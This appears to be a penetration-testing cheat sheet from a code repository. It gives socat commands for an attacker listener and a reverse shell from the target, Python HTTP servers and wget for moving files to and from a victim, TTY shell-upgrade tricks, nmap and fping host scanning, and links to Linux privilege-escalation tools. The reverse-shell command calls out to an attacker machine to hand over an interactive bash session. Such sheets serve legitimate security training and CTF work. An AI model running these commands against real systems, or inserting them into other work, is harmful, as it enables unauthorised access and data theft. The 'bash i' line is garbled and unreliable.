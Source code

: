 SoCat is like Netcat but on steroids

Open a listening port on attacker machine
```
$ socat file:`tty`, raw, echo=0 tcp-listen:<port>
```
Open a connection from the target machine
```
$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<attacker machine ip>:<port>
```

## Linux Privilege Escalation

- [GTFOBins](https://gtfobins.github.io/)
- [LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)

## Starting a Python httpserver

```
$ python -m SimpleHTTPServer <port>
$ python3 -m http.server <port>
```
To extract files from the victim machine
```
$ wget http://<ip of the server>/<filename of the file you need transferred>
```

## Spawning a shell

```
$ bash i 
```
```
$ python -c 'import pty;pty.spawn("/bin/bash")'
or
$ python2 -c 'import pty;pty.spawn("/bin/bash")'
or
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

$ export TERM=xterm
$ Ctrl + Z
$ stty raw -echo; fg
```
## Footprinting & Scanning

Find live hosts with fping or nmap
```
$ fping -a -g 172.16.100.40/24 2>/dev/null | tee alive_hosts.txt
$ nmap -sn 172.16.100.40/24 -oN alive_hosts.txt
$ nmap -sS -sV -A 172.16.100.10
```
